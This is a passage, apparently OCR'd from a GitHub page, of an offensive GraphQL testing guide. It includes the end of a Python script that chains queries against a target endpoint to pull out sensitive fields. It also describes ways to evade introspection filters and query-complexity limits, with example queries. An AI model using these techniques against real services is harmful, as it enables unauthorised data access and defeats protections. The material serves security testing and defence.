              response = requests.post(url, headers=headers, json={"query": query})
             if response.status_code == 200:
                 result = response.json()
                 if "data" in result and result["data"][field]:
                     print(f"[+] Found sensitive data in {field}:")
                     print(result["data"][field])
         
         # Final step: If we found admin users or sensitive data, try to exploit
         print("\n[*] Step 4: Final exploitation based on findings")
         # (Specific exploitation would depend on what was found in previous steps)
     
     # Example usage
     chain_vulnerabilities("https://target.com/graphql")
     ```

- **Detection evasion techniques**
  1. **Evading introspection protections**:
     - Use alternative spacing and formatting for introspection queries
     - Add newlines between key terms: `__schema` → `__\nschema`
     - Try URL-encoded versions of introspection queries
     - Use fragments to split introspection queries
     - Switch between different request methods and content types
     - Example for adding newlines to bypass regex checks:
     ```graphql
     {
       __
       schema {
         types {
           name
         }
       }
     }
     ```

  2. **Bypassing query complexity controls**:
     - Split complex queries into multiple smaller queries
     - Use aliases to perform multiple operations in one query
     - Submit queries in small batches to stay under complexity thresholds
     - Identify and target endpoints with different complexity limits
     - Use fragments to make queries appear simpler
     - Example of splitting a complex query:
     ```graphql
     # Original query that might hit complexity limits
     {
       users(first: 100) {
         edges {
           node {
             id
             posts {
               edges {
                 node {
                   id
                   comments {
                     edges {
                       node {
                         id
                         author {